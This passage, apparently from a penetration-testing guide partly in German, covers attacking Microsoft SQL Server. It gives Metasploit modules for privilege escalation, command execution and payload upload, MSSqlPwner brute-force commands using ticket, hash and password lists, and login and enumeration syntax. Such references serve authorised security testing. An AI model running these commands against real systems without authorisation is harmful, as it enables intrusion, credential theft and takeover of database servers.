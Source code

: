 ```bash
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```
### [**Brute force**](../../generic-methodologies-and-resources/brute-force.md#sql-server)

### Manuelle Aufzählung

#### Anmeldung

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt
```

```bash
# Using Impacket mssqlclient.py
mssqlclient.py [-db volume] <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
## Recommended -windows-auth when you are going to use a domain. Use as domain the netBIOS name of the machine
mssqlclient.py [-db volume] -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>

# Using sqsh
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
## In case Windows Auth using "." as domain name for local user
sqsh -S <IP> -U .\\<Username> -P <Password> -D <Database>
## In sqsh you need to use GO after writting the query to send it
1> select 1;
2> go
```
#### Häufige Aufzählung
```sql
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```